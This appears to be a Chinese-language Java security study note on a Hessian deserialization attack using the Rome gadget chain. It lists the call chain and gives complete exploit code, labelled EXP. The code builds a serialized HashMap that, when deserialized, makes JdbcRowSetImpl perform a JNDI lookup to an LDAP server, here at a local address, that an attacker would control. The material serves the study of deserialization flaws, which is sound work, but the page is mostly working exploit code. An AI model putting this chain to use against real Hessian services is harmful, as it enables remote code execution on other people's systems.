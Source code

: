 ## 利用链

### Rome 利用链

#### 利用链

```bash
JdbcRowSetImpl.getDatabaseMetaData()
ToStringBean.toString() (com.sun.syndication.feed.impl)
EqualsBean.beanHashCode() (com.sun.syndication.feed.impl)
ObjectBean.hashCode()
HashMap.hash()
HashMap.put()
MapDeserializer.readMap()
SerializerFactory.readMap()
Hessian2Input.readObject()
```

#### EXP

```bash
package org.dili.hessian;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.util.HashMap;

public class RomeHessian {
    public static void main(String[] args) throws Exception{
        // ldap url
        String url = "ldap://127.0.0.1:1389/czhupn";

        // 创建JdbcRowSetImpl对象
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName(url);

        // 创建toStringBean对象
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class, jdbcRowSet);

        // 创建ObjectBean
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);

        // 创建HashMap
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(objectBean, "aaaa");

        // 序列化
        FileOutputStream fileOutputStream = new FileOutputStream("JavaSec/out/RomeHessian.bin");
        Hessian2Output hessian2Output = new Hessian2Output(fileOutputStream);
        hessian2Output.writeObject(hashMap);
        hessian2Output.close();

        // 反序列化
        FileInputStream fileInputStream = new FileInputStream("JavaSec/out/RomeHessian.bin");
        Hessian2Input hessian2Input = new Hessian2Input(fileInputStream);
        HashMap o = (HashMap) hessian2Input.readObject();

    }
}
```